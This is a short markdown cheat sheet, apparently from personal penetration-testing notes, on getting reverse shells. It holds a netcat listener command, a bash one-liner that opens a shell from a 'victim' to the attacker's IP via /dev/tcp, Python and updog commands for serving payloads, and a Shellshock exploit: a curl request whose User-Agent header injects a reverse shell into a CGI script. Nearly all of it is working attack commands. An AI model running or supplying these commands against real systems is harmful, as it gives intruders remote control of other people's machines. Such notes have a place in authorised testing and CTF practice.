 # Reverse Shell 

https://www.revshells.com/

## usage

Listener (Your own machine):  
```bash
nc -lvnp 8081
```

Reverse (Victims):  
- `ip` : Your own machine.  
- `post`: Determine by your nc open port.    
```bash
sh -i >& /dev/tcp/192.168.49.54/8081 0>&1
```

## Web server feed

- With `python`
```bash
python3 -m http.server
python -m http.server 8123
```

- With `updog`
https://github.com/sc0tfree/updog
```bash
updog 
updog -p 1234
updog --ssl
```

## With `shellshock`  
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.86.99/443 0>&1' http://192.168.86.150/cgi-bin/test/test.cgi
```